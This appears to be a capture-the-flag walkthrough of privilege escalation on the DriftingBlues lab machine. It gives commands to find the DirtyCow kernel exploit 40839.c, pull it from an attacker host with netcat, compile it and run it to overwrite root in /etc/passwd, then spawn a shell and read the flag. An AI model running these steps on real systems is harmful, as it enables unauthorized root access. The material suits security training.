

Get Privilege user (Flag)
1. Look for an user in “/etc/passwd” on the victim's machine.
$cat /etc/passwd
Output:
As you can see there's not any user.
2. Look at the victim's system properties.
$uname -a
Output:
You can see
•
Linux - Kernel name.•
3.2.0-4-amd64 Kernel release.3. Search for a Linux Kernel exploit on your Kali Machine.
$searchsploit linux kernel
Output:
• This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
• The user will be prompted for the new password when the binary is run.
• The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
• After running the exploit you should be able to login with the newly created user.
More info here.
4. Copy the “40839.c” file to the victim's machine “/tmp” directory.
$locate 40839.c
Output:
On your Kali Machine run the following code.
$nc -l -p 4444 < /usr/share/exploitdb/exploits/linux/local/40839.c
On your victim's machine run the following code.
$nc -w 3 192.168.12.10 4444 | pv > 40839.c
5. Compile the “40839.c” file on the reverse shell and run it.
$gcc -o expl -pthread -lcrypt 40839.c
$./expl newpas
$./expl newpas
Output:
6. Check the “/etc/passwd” for a new user “firfart”.
$cat /etc/passwd
Output:
7. Pawn a shell.
$python -c 'import pty; pty.spawn("/bin/sh")'
8. Change user. Password: newpas
$su firefart
Output:
9. Find out user and group names and numeric ID’s (UID or group ID) of the current user.
firefart@driftingblues:/#id
Output:
This user has root privileges.
10. Go to “root” directory and list the files.
firefart@driftingblues:/#cd /root
firefart@driftingblues:/#ls
firefart@driftingblues:/#ls
Output:

11. Show the flag.
firefart@driftingblues:/#cat
Output: